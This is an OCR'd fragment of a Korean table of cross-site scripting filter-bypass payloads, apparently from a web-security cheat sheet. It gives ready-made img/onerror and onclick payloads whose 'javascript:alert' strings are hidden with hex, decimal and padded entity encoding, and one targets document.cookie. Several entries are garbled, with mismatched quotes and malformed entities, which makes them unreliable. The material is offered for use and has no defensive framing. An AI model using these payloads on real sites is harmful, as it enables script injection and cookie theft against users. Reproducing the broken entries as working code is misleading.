 | **특정 태그가 필터링 되는 경우** | `<javascript onclick=location=tagName+innerHTML+location.hash>:/&clickme!#*/alert('XSS')` |
| **특정 단어 필터링 - HEX 인코딩** | `<img src='x’ onerror=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#53&#x27&#x29>` |
| **특정 단어 필터링 - HTML 인코딩** | `<img src='x’ onerror=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;45;&#41;>` |
| **특정 단어 필터링 - UTF-7bit 인코딩** | `<img src='x’ onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000100&#0000111&#0000099&#0000117&#0000109&#0000101&#0000110&#00001166&#0000046&#0000099&#0000111&#0000111&#0000107&#0000105&#0000101&#0000041">` |

---


<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>
